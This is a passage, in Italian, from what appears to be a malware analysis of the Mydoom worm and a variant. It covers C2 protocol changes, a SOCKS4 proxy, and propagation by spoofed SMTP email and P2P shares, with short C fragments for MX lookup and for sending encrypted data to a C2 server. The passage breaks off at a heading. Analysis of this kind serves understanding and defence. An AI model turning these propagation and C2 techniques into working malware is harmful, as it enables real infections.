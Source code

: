 Nel file `client.c`, il protocollo di comunicazione con il server remoto è stato aggiornato per utilizzare un formato più difficile da analizzare.

### **5.2 Proxy SOCKS4 Migliorato**

Il file `xproxy.c` mostra miglioramenti nella gestione delle connessioni proxy, consentendo all'attaccante di reindirizzare il traffico in modo più stabile.

---

### 🔍 **Analisi Approfondita sui Protocolli di Rete Utilizzati da Mydoom e dalla Variante**

#### **1️⃣ Protocolli di Rete nella Versione Originale di Mydoom**

Mydoom utilizza protocolli di rete per due funzioni principali:

- **Propagazione (Email & P2P)**
- **Comunicazione con il Server di Comando e Controllo (C2)**

✅ **Propagazione via Email (SMTP - Simple Mail Transfer Protocol)**

- Il worm si connette direttamente a **server SMTP** per inviare email infette.

- Utilizza una funzione per risolvere i 

  record MX

   del DNS e trovare il server SMTP più adatto:

  ```c
  getmxrr("example.com", mxhosts);
  connect(smtp_sock, mxhosts[0], 25);
  ```

- Invia email contenenti allegati `.zip` o `.exe`, spesso con **indirizzi email spoofati**.

✅ **Propagazione via Reti P2P (Kazaa/eMule)**

- Il modulo `p2p.c` copia il malware nelle directory condivise.
- Non utilizza protocolli specializzati, ma sfrutta la **logica di sincronizzazione** della rete P2P.

✅ **Comunicazione C2 tramite Proxy SOCKS4**

- Dopo aver infettato la macchina, Mydoom apre una connessione verso il server C2 utilizzando **SOCKS4**.

- Il traffico tra la macchina infetta e il server C2 viene instradato attraverso il proxy, rendendo più difficile il tracciamento.

  ```c
  SOCKET s = socket(AF_INET, SOCK_STREAM, 0);
  connect(s, (struct sockaddr *)&c2_addr, sizeof(c2_addr));
  send(s, encrypted_data, data_size, 0);
  ```

🔹 **Limiti della Versione Originale**

